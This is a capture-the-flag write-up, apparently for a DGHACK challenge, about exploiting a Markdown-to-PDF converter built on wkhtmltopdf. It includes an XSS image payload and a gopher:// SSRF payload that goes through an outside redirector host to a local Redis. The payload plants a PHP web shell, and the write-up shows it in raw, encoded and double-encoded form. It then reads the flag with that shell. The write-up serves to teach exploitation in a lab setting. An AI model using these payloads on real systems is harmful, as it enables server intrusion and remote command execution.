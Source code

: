 ```
L'application AwesomeDoc permet de convertir du Markdown en HTML.

Vous pouvez même exporter le résultat en PDF !

    Retrouvez le secret à la racine du serveur
```

On the website, we can see a field, so we try XSS injection to write inside the PDF.
We can see on the script that `<script>` is blocked.
So we try with image:
```javascript
<img src="x" onerror="document.write(window.location)" />
```

I tried `FILE:///` inclusion but they seems disabled.

On the script we see a path to a file, and when we access it (`http://website-pjsc9e.inst.malicecyber.com/lib/wkhtmltopdf/wkhtmltopdf`), it gives:

```
#!/bin/bash

# usage :
#$ echo '<iframe src="http://80.247.1.68/redirect.php?a=gopher://127.0.0.1:6379/_%0D%0A*1%0D%0A$8%0D%0Aflushall%0D%0A*4%0D%0A$6%0D%0Aconfig%0D%0A$3%0D%0Aset%0D%0A$10%0D%0Adbfilename%0D%0A$7%0D%0Apwn.php%0D%0A*1%0D%0A$4%0D%0Asave%0D%0Aquit%0D%0A"></iframe>' | lib/wkhtmltopdf/wkhtmltopdf - 'data/outpit.pdf'
#$ echo '<iframe src="http://80.247.1.68/redirect.php?a=gopher://127.0.0.1:6379/_%0D%0A*1%0D%0A$8%0D%0Aflushall%0D%0A*4%0D%0A$6%0D%0Aconfig%0D%0A$3%0D%0Aset%0D%0A$10%0D%0Adbfilename%0D%0A$7%0D%0Apwn.php%0D%0A*1%0D%0A$4%0D%0Asave%0D%0Aquit%0D%0A"></iframe>)' | lib/wkhtmltopdf/wkhtmltopdf - 'data/outpit.pdf'

# L'expression rÃ©guliÃ¨re pour extraire l'URL avec diffÃ©rents protocoles
# et exclure les caractÃ¨res < et >
regex='(gopher)://[^[:space:]<>"]+'

# Le texte d'entrÃ©e passÃ© en pipe
read input
echo "You entered '$input'"

# Utilisation de la commande 'grep' pour extraire l'URL du texte
# '-o' : affiche uniquement les correspondances trouvÃ©es
# '-E' : permet l'utilisation d'expressions rÃ©guliÃ¨res Ã©tendues (pour le '|')
url=$(cat<<EOF | grep -o -E "$regex"
$input
EOF
)
echo $url

# VÃ©rifie si une URL a Ã©tÃ© trouvÃ©e
if [ ${#url} -ge 1 ]; then
    echo "URL trouvÃ©e : $url"
    # Effectue une requÃªte avec 'curl' vers l'URL trouvÃ©e
    cat<<EOF | curl --config -
 --url "$url"
EOF
fi

cat<<EOF | lib/wkhtmltopdf/wkhtmltopdf.origin --disable-local-file-access - "$2"
$input
EOF

exit $?

```

I don't know much about gopher wrapper, but seems like it's time to learn !

After a YEAR of searching and learning how gopher and Redit DB works, i made this payload:
```
gopher://127.0.0.1:6379/_
*1
$8
flushall
*3
$3
set
$1
1
$37
<?php echo passthru($_GET['cmd']); ?>
*4
$6
config
$3
set
$10
dbfilename
$7
pwn.php
*1
$4
save
*1
$4
quit
```

Then i encoded its content (not url !) once:
```
gopher://127.0.0.1:6379/_%0D%0A*1%0D%0A$8%0D%0Aflushall%0D%0A*3%0D%0A$3%0D%0Aset%0D%0A$1%0D%0A1%0D%0A$37%0D%0A%3C%3Fphp%20echo%20passthru%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0D%0A*4%0D%0A$6%0D%0Aconfig%0D%0A$3%0D%0Aset%0D%0A$10%0D%0Adbfilename%0D%0A$7%0D%0Apwn.php%0D%0A*1%0D%0A$4%0D%0Asave%0D%0A*1%0D%0A$4%0D%0Aquit%0D%0A
```

And burp did it a second time:

```
gopher%3a%2f%2f127.0.0.1%3a6379%2f_%250D%250A*1%250D%250A%248%250D%250Aflushall%250D%250A*3%250D%250A%243%250D%250Aset%250D%250A%241%250D%250A1%250D%250A%2437%250D%250A%253C%253Fphp%2520echo%2520passthru%2528%2524_GET%255B%2527cmd%2527%255D%2529%253B%2520%253F%253E%250D%250A*4%250D%250A%246%250D%250Aconfig%250D%250A%243%250D%250Aset%250D%250A%2410%250D%250Adbfilename%250D%250A%247%250D%250Apwn.php%250D%250A*1%250D%250A%244%250D%250Asave%250D%250A*1%250D%250A%244%250D%250Aquit%250D%250A
```

And then i get the flag by going on the `pwn.php?cmd=cat /FLAG` page !

Flag was `DGHACK{D0uble_1s_always_better}` !
